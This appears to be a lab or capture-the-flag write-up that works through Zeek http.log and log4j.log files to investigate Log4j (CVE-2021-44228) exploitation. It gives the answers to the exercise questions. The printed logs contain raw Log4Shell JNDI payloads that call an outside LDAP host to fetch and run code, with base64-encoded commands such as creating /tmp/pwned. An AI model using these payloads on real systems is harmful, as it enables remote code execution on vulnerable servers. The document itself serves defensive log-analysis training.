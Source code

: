 
*nmap*

Investigate the http.log file. What is the extension of the exploit file?
Uri info can help.

```
root@ip-10-10-49-209:/home/ubuntu/Desktop/Exercise-Files/log4j# head http.log 
#separator \x09
#set_separator	,
#empty_field	(empty)
#unset_field	-
#path	http
#open	2022-12-10-18-49-29
#fields	ts	uid	id.orig_h	id.orig_p	id.resp_h	id.resp_p	trans_depth	method	host	uri	referrer	version	user_agent	origin	request_body_len	response_body_len	status_code	status_msg	info_code	info_msg	tags	username	password	proxied	orig_fuids	orig_filenames	orig_mime_types	resp_fuids	resp_filenames	resp_mime_types
#types	time	string	addr	port	addr	port	count	string	string	string	string	string	string	string	count	count	count	string	count	string	set[enum]	string	string	set[string]	vector[string]	vector[string]	vector[string]	vector[string]	vector[string]	vector[string]
1640023505.960608	C1Azru1VLUo3ZiDC33	172.17.0.1	60314	172.17.0.2	8080	1	GET	127.0.0.1:8080	/	-1.1	SecurityNik Testing	-	0	91	400	(empty)	-	-	(empty)	-	-	-	-	-	-Fq5jbu3EpCk5tV3f18	-	text/json
1640023652.119439	CEcjx737MVaGytquj1	172.17.0.2	51832	192.168.56.102	443	1	GET	192.168.56.102:443/ExploitQ8v7ygBW4i.class	-	1.1	Java/1.8.0_181	-	0	1216	200	OK	-	-	CVE_2021_44228::LOG4J_RCE	--	-	-	-	-	Fm2Pk636DiMArmDn03	-	application/x-java-applet

root@ip-10-10-49-209:/home/ubuntu/Desktop/Exercise-Files/log4j# cat http.log | zeek-cut uri | sort | uniq
/
/Exploit6HHc3BcVzI.class
/ExploitQ8v7ygBW4i.class
/ExploitSMMZvT8GXL.class
/testing1
/testing123
testing1


```


*.class*

Investigate the log4j.log file. Decode the base64 commands. What is the name of the created file?
You can use online decoders or use Linux terminal features. "echo 'base64 data' | base64 --decode"

```
root@ip-10-10-49-209:/home/ubuntu/Desktop/Exercise-Files/log4j# head log4j.log
#separator \x09
#set_separator	,
#empty_field	(empty)
#unset_field	-
#path	log4j
#open	2022-12-10-18-49-29
#fields	ts	uid	http_uri	uri	stem	target_hosttarget_port	method	is_orig	name	value	matched_name	matched_value
#types	time	string	string	string	string	string	string	string	bool	string	string	bool	bool
1640023652.008511	CUcaDK1mHG3gFB0439	/	192.168.56.102:389/Basic/Command/Base64/dG91Y2ggL3RtcC9wd25lZAo=	192.168.56.102:389	192.168.56.102	389	GET	T	X-API-VERSION	${jndi:ldap://192.168.56.102:389/Basic/Command/Base64/dG91Y2ggL3RtcC9wd25lZAo=}	F	T
1640025554.661073	C43zpa28ReOfCY0Qvd	/	192.168.56.102:389/Basic/Command/Base64/d2hpY2ggbmMgPiAvdG1wL3B3bmVkCg==	192.168.56.102:389	192.168.56.102	389	GET	T	X-API-VERSION	${jndi:ldap://192.168.56.102:389/Basic/Command/Base64/d2hpY2ggbmMgPiAvdG1wL3B3bmVkCg==}	F	T

```